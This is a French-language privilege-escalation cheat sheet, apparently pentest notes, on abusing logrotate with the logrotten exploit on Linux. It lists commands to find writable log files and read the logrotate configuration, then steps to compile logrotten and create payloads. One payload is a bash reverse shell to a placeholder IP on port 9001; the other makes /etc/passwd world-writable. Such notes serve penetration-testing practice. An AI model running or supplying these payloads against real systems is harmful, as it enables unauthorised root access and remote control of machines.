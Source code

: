 Identifier les fichiers de logs modifiables

```sh
find /var/log -perm -o+w 2>/dev/null
```

```sh
find /var/log -perm -u+w -user <user> 2>/dev/null
```

```sh
find /var/log -perm -g+w -group <group> 2>/dev/null
```

```sh
find / -perm -u+w -user <user> -iname *.log 2>/dev/null
```


Afficher la conf globale de logrotate

```shell
cat /etc/logrotate.conf
```

Afficher les fichiers dont la rotation est active

```sh
cat /var/lib/logrotate.status
```

Autres fichiers de conf

```shell
ls /etc/logrotate.d/
```

Check si create 644 root root

```shell
cat /etc/logrotate.d/dpkg
```

## LogRotten

https://github.com/whotwagner/logrotten

1. Compiler l'exploit depuis la target ou un environnement similaire

```shell
gcc logrotten.c -o logrotten
```

2. Créer un payload

reverse shell
```shell
echo 'bash -i >& /dev/tcp/<ip>/9001 0>&1' > payload
```

/etc/passwd modifiable
```shell
echo 'chmod o+w /etc/passwd' > payload
```
